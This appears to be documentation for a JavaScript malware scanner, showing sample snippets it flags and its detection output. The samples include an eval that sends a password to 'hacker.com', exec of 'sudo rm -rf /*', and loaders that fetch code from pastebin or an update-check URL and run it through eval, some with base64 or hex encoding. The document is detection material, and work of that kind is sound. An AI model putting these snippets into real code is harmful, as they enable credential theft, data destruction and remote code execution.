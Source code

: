 # 1 Keyword disguise
## 1.1 Concatenated String
```javascript
var url_part_1 = 'h' + 't' + 't' + 'p' // <--- disguised http keyword
var url_part_2 = ['api.github', '.com/repos'].join('')
var address = url_part_1 + url_part_2;
var r = http.request({
    hostname: address,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {});
```
Result: 
```
- Found data exchange in:
http.request({
    hostname: address,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {})
```

## 1.2 Encoded String
```javascript
var e = Buffer.from(e, "hex").toString()
var r = http.request({
    hostname: e,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {});
```
Result:
```
- Found data exchange & encoded string in:
http.request({
    hostname: e,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {})
```

# 2 Command Injection
## 2.1 Hardcoded code string

**Execute js code**

```javascript
eval('http.post("hacker.com", {"pwd": pwd})')
```
Result:
```
- Found powerful function in:
eval('http.post("hacker.com", {"pwd": pwd})')
```

**Execute shell command**
```javascript
exec('sudo rm -rf /*', (err, stdout, stderr) => {
});
```
Result:
```
- Found powerful function in:
exec('sudo rm -rf /*', (err, stdout, stderr) => {
})
```


## 2.2 Encoded code string
```javascript
var a = 'asdfbakl2347198ebfkjdasfae' // <--- malicious code
var decoded_a = Buffer.from(a, "hex").toString()
eval(decoded_a)
```
Result:
```
- Found powerful function & encoded string in:
eval(decoded_a)
```


## 2.3 Code from http response
**Plain string**
```javascript
https.get(
    {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
    },
    r => {
        r.on("data", c => {
            eval(c);  // <--- malicious code here
        });
    }
)
```
Result: 
```
- Found data exchange & powerful function in:
https.get(
    {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
    },
    r => {
        r.on("data", c => {
            eval(c);  // <--- malicious code here
        });
    }
)
```

**With Encoding**
```javascript
try {
    https.get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
        try {
            eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
        } catch (e) {}
    }))
} catch (e) {}
```
Result: 
```
- Found data exchange & powerful function & encoded string in:
https.get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
    try {
        eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
    } catch (e) {}
}))
```

# 3 Name alias
```javascript
var o = http
function i(e, t, n) {
    e = 'http://google.com';
    var r = o.request({ // <---- aliased variable
        hostname: e,
        port: 8080,
        method: "POST",
        path: "/" + t,
    }, function() {});
}
```
Result:
```
- Found data exchange in:
o.request({ // <---- aliased variable
        hostname: e,
        port: 8080,
        method: "POST",
        path: "/" + t,
    }, function() {})
```
